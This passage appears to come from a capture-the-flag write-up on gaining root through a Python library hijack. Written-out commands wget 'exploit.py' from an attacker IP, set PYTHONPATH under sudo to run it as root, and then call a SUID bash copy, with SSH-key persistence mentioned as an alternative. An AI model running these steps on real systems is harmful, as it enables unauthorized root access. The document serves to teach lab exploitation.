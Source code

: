 /var/tmp seems like a good option (/home/waldo/.nano would have been good too).
If this works, root is going to run some Python code for me. My first instinct is to use a reverse shell, but that might actually have issues. If the process errors out or ends, my session could die with it (it actually would work fine in this case). There are tons of options here, but I’ll show two.\

1. Copy /bin/bash and set it owned by root and SUID.
2. Write my public SSH key into /root/.ssh/authorized_keys.

Run admin_tasks.sh calling the web backup option (6):
`wget 10.10.14.65/exploit.py -O shutil.py`
`sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6`

Then just `./.wither -p` , we get the root shell.

